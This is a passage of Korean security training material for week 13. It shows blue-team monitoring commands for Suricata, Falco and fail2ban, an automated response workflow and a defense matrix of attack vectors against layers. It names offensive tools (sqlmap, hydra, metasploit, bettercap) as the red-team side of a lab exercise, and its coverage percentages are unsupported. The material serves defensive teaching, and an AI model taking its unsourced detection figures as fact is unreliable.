sudo tail /var/log/suricata/eve.json | jq -r "select(.event_type == \"alert\") | \"[\\(.alert.severity)] \\(.alert.signature)\"" | tail -10

echo ""
echo "=== Falco (CRITICAL 5분 내) ==="
sudo journalctl -u falco --since "5 minutes ago" --output cat | grep CRITICAL | tail -10

echo ""
echo "=== fail2ban 차단 IP ==="
sudo fail2ban-client status sshd | grep "Banned IP"
'

# === 자동 대응 (Wazuh AR + Shuffle workflow) ===
# 모든 alert level 13+ 가 자동으로:
# 1. nft block (10.20.30.1)
# 2. TheHive case 생성
# 3. Slack 알림
# 4. Velociraptor live hunt 트리거
```

### 4 vector × 5 layer defense matrix

```
Web Attack:
  L3/4 (nft) → L7 (ModSec) → IDS (Suricata) → SIEM (Wazuh) → SOAR (Shuffle)
                  ✓ 95%       ✓ 70%             ✓ 80%          ✓ 90%

Auth Attack:
  L3/4 (fail2ban) → SIEM (Wazuh frequency) → SOAR (block + alert)
       ✓ 99%             ✓ 95%                    ✓ 90%

System Attack:
  Endpoint (Falco) → SIEM (Wazuh agent) → SOAR (auto isolate)
       ✓ 70%            ✓ 80%                  ✓ 60%

Network Attack:
  IDS (Suricata) → DPI (Zeek) → SIEM 통합
       ✓ 60%       ✓ 50%         ✓ 70%
```

학생은 본 13주차에서 4 벡터 동시 공격 ↔ 5 layer 방어를 OSS 도구로 익힌다 — Red 도구 (sqlmap + hydra + metasploit + bettercap) ↔ Blue (ModSec + fail2ban + Falco + Suricata + Wazuh + Shuffle).
